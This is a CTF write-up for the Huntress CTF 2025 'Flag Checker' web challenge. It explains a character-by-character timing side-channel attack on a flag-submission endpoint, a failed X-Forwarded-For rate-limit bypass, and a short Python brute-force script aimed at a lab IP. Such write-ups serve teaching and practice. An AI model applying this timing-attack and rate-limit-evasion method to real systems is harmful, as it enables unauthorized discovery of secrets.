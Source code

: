 ```yaml
---
title: "Huntress CTF 2025 Writeup: Flag Checker"
date: 2025-11-01 16:36:48 +0100
categories: ["Huntress CTF 2025"]
tags: ["Web", "CTF", "Huntress", "Timing Attack"]
---
```


> We've decided to make this challenge really straight forward. All you have to do is find out the flag!

> Juuuust make sure not to trip any of the security controls implemented to stop brute force attacks...
---
![flag-checker-1.png](https://raw.githubusercontent.com/AbdulRKB/img/refs/heads/main/Huntress%20CTF%202025/flag-checker-1.png)

I used the alert "Brute forcing won't work" as a hint that it was a brute forcing challenge, but what kind of brute force?

After looking at the website more and submitting data, I realised that inputting correct substring (from index 0) caused the website to have a delay which matched the length of the correct substring, e.g. "flag" led to a response time of 0.4s, and "flag{" led to a response time of 0.5s.

![flag-checker-2.png](https://raw.githubusercontent.com/AbdulRKB/img/refs/heads/main/Huntress%20CTF%202025/flag-checker-2.png)

This showed that the web was vulnerable to character by character time-analysis brute forcing. So I created a python script to automate the process of testing every character from `a-f0-9`to see if a change in response time was detected, and upon detection, I would attach that character to the prefix string manually and rerun the string to test characters for next position.  

After submitting about 10 inputs, I was met with the following error:

![flag-checker-3.png](https://raw.githubusercontent.com/AbdulRKB/img/refs/heads/main/Huntress%20CTF%202025/flag-checker-3.png)

I tried to bypass this by adding `X-Forwarded-For`, however It didn't work. So I decided to reset the machine every time the server blocked my IP. 

```python
import requests


IP = "10.1.51.122"
URL = f"http://"+IP+"/submit?flag=flag{77ba0346d9565e77344b9fe40ecf1369"
DATA = "abcdef0123456789"
last_char = '2'
DATA = last_char+DATA.split(last_char)[1]
try:

    for d in DATA:
        resp = requests.get(URL+d)
        resp_data = resp.content.decode()
        print(f"[+] Trying {d}, time: {resp.headers['X-Response-Time']}")
        if "Stop Hacking" in resp_data:
            print(f"[-] Rate Limit, last character: {d} ")
            break
except KeyboardInterrupt:
    print("[x] Exiting!")
except KeyError:
    print("[-] Server Still Starting...")
```
